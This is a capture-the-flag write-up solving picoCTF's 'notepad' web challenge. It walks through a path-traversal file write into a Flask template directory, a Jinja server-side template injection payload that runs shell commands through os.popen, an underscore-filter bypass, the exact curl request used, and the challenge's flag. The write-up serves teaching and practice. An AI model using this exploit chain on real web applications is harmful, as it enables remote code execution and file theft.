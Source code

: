 # Web - notepad
## Writeup Author: kebabulon

---

### Task
This note-taking site seems a bit off.  
notepad.mars.picoctf.net

![caas site](./assets/images/notepad_1.png)

Attached files:
```
-- notepad.tar
   |-- app.py
   |-- Dockerfile  
   |-- solve.txt  
   |-- static
   |-- templates
       |-- errors 
       |   |-- bad_content.html
       |   |-- long_content.html 
       |-- index.html
```

---

### Solution

First of all, I had to find where the flag is.  
It is created in **Dockerfile**:  
```Dockerfile
FROM python:3.9.2-slim-buster

RUN pip install flask gunicorn --no-cache-dir

WORKDIR /app
COPY app.py flag.txt ./
COPY templates templates
RUN mkdir /app/static && \
    chmod -R 775 . && \
    chmod 1773 static templates/errors && \
    mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).txt

CMD ["gunicorn", "-w16", "-t5", "--graceful-timeout", "0", "-unobody", "-gnogroup", "-b0.0.0.0", "app:app"]

```
It is in ```app/``` directory and has a random name.  
We would likely need a RCE to get it. (foreshadowing)

The next step is finding an attack point. Lets look at **app.js**:

```js
from werkzeug.urls import url_fix
from secrets import token_urlsafe
from flask import Flask, request, render_template, redirect, url_for

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))

@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```

We can see that the notepad file's name is based on the first 128 characters of it.  
That means there is a possibility of writting the notepad file somewhere else using **\.\.** .  

Something to note is that there are checks in case of ```_``` and ```/``` in  the contents of the file.  
We will have to find a way to bypass that >:)

Lets check **index.html**:
```jinja
<!doctype html>
{% if error is not none %}
  <h3>
    error: {{ error }}
  </h3>
  {% include "errors/" + error + ".html" ignore missing %}
{% endif %}
<h2>make a new note</h2>
<form action="/new" method="POST">
  <textarea name="content"></textarea>
  <input type="submit">
</form>
```

Oh boy... ``` include "errors/" + error + ".html" ignore missing ```  

Since we can write the notepad file anywhere, lets write it in ```errors/``` and include an RCE with it!  

#### Figuring out the RCE

After a quick google search, i found this [Jinja RCE](https://secure-cookie.io/attacks/ssti/):
```jinja
{{ "foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```
It looks complicated, but it is actually not so complicated!

- ```"foo".__class__.__base__.__subclasses__()``` - array of every class that is available to ```str``` class
- ```[182]``` - index of a class that imports ```os``` ( pretty handy! )
- ```.__init__.__globals__['sys'].modules['os']``` - gets the ```os``` module from the class's globals
- ```.popen("ls").read()``` - executes ```ls``` in bash and returns the output

This *would've* worked great, but we cannot use ```_``` in notepad's contents.  
Instead, we can get them from url's parameters with ```request.args.parameter```:
```jinja
{{"foo"[request.args.c][request.args.b][request.args.s]()[182][request.args.i][request.args.g]["sys"].modules["os"].popen("ls").read()}}
```
The url's parameters will look like this:
```
c=__class__&s=__subclasses__&b=__base__&i=__init__&g=__globals__
```

Alright, now lets construct our post request using curl:

```bash
curl --form "content=..\\templates\\errors\\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{\"f\"[request.args.c][request.args.b][request.args.s]()[182][request.args.i][request.args.g][\"sys\"].modules[\"os\"].popen(\"ls\").read()}}" "https://notepad.mars.picoctf.net/new" -s -o /dev/null -w %header{location}
```

I put a bunch of ```a```s so the filename is not the RCE itself.  

That curl request should return the url of the notepad file:

```
$ http://notepad.mars.picoctf.net/templates/errors/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-NIqZyt10lgw.html
```

Success! The file is in ```errors/```  
Now, lets test if it works.

The url looks like this:
```
https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-NIqZyt10lgw&c=__class__&s=__subclasses__&b=__base__&i=__init__&g=__globals__
```

![notepad site](./assets/images/notepad_2.png)

"Finally!!!" - Me, like an hour ago.  

Anyways, the flag's filename is ```flag-c8f5526c-4122-4578-96de-d7dd27193798.txt```  
To print it out, we just repeat everything we did above but change the command to:  
```bash
cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt
```

![notepad site](./assets/images/notepad_3.png)

And we get the flag.

---

### Flag

```
picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}
```

